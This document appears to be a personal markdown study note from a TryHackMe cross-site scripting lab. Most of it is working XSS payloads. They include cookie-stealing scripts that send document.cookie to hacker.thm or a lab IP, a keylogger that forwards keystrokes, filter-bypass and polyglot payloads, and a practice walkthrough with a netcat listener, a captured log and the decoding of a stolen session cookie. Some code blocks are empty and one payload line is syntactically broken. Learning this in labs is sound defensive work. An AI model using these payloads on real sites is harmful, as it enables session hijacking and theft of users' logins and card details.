

https://tryhackme.com/room/xssgi

##  XSS Payloads

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

### Fetch

```js
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Image

```js
<script>var new Image().src="http://192.168.0.18:8888/?"+document.cookie;</script>
```

### `` Tag Instead of `<script>` Tags

```js

```

### `<SVG> Tag

```js
<svg/onload=alert(1)>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

## Perfecting your payload

### **Level Four:** Inner HTML

You'll have to escape the existing JavaScript command, so you're able to run your code; you can do this with the following payload `';alert('THM');//`

which you'll see from the below screenshot will execute your code. The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

Payload:
```js
;alert('THM');//
```

### Level Five: Script Keyword Remove

Now, this level looks the same as level one, and your name also gets reflected in the same place. But if you try the `<script>alert('THM');</script>` payload, it won't work. When you view the page source, you'll see why.

The word `script`  gets removed from your payload, that's because there is a filter that strips out any potentially dangerous words.

Official Answer:

```js
<sscriptcript>alert('THM');</sscriptcript>
```

My Payload

```bash
<svg/onload=alert("THM")>
```

### Level Six: Tag Attribute Escape

My Payload

```js
x" onerror=alert("THM")//
```

### **Polyglots:**

Works on all levels...

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Practice

Get Attack Box Machine IP: 
```bash
┌──(root㉿kali)-[~]
└─# hostname -I
10.10.71.141
```

Listen On Port `81` with -k(keep alive)

```bash
nc -lvnkp 81
```

or Use http server

```py
python3 -m http.server 81
```

Submit Payload

- `<svg>`  with `Image()` 
```js
TEST</textarea><svg/onload="new Image().src=`http://10.10.84.210:81/c/${btoa(document.cookie)}`"><textarea>
```

- `` with `Image()`
```js
TEST</textarea><textarea>
```

- `<script>` With `fetch()`
```js
TEST</textarea><script>fetch(`http://10.10.84.210:81/c/${btoa(document.cookie)}`)</script><textarea>
```

- Use Beef XSS
- Use XSS Hunter
- Use free hosting servers like `pipedream`

Response

```js
10.10.55.251 - - [26/Jan/2023 14:04:15] "GET /c/c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ== HTTP/1.1" 404 -
```

Base64 decode using: python  | [Cyberchef](https://gchq.github.io/CyberChef/) | BurpSuite

```python
In [3]: base64.b64decode("c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ==")
Out[3]: b'staff-session=4AB305E55955197693F01D6F8FD2D321'
```

Go to `Application > Cookies` to set cookies




## Resources

- https://xsshunter.com/